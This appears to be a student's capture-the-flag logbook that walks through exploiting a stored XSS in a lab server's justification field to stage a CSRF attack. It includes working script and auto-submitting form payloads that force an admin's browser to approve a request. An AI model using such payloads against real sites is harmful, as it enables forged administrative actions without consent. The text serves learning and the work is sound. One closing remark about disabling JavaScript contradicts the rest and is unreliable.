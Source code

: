 ### CTF Logbook - Week 6 (XSS & CSRF)

Connecting to the web server, on port 5004, we are presented with a justification field, which is vulnerable to XSS, as it does not sanitize the input. We tested this by entering a simple script tag, and seeing if it was executed.

```html
<script>alert('XSS')</script>
```

This was executed and an alert box was shown.

![image](screenshots/w6/xss.png)

We then entered a normal string (e.g. "test"), and got to look around the admin page, located at port 5005. It is a simple page, with two disabled buttons, one for giving the flag and one for marking the request as read.

Inspecting the admin page, we found that the 'give the flag' button was a form, which sent a POST request to the server.

```html	
<form method="POST" action="/request/e8d14cd641d7d5457a72b85544f522509446d9db/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```

#### 

Our initial thought was to inject a script tag, which would enable the button for giving the flag and automatically click it. 

```html
<script>
    document.getElementById("giveflag").disabled = false;
    document.getElementById("giveflag").click();
</script>
```

However, this did not work, as the script was executed at port 5004, and not at port 5005. 

We then tried to use the fetch API to send a POST request, performing the same action as the form. Note that the id for every request is unique and is visible at the top of the page, on port 5004. We had to manually copy and insert it into the script.

```html
<script>
    fetch("http://ctf-fsi.fe.up.pt:5005/request/2192820ffc5638e09269ae45745f59426638b5e8/approve", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"

        }
    });
</script>
```

This did not work either, as the request was blocked by CORS. 

![image](screenshots/w6/cors.png)

#### The solution 

We ended up injecting HTML code into the justification field, creating a form at port 5004, similar to the one at port 5005. Additionally, we added a script tag, which would automatically submit the form, when the admin visited the page. 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/af64e4ae7e9e3296eb6799de63c09fbf7be62418/approve" role="form">
    <div class="submit">

        <input type="submit" id="giveflag" value="Give the flag">
        
    </div>
</form>

<script>
    const button = document.getElementById("giveflag");
    button.click();
</script>
```

This worked, and we were able to get the flag! We successfully exploited the XSS vulnerability to perform a CSRF attack.

![image](screenshots/w6/flag.png)

Note: we had to disable the javascript in the browser, and visit the admin and then the justification page, in order to get the flag. Otherwise, the script would not be executed.

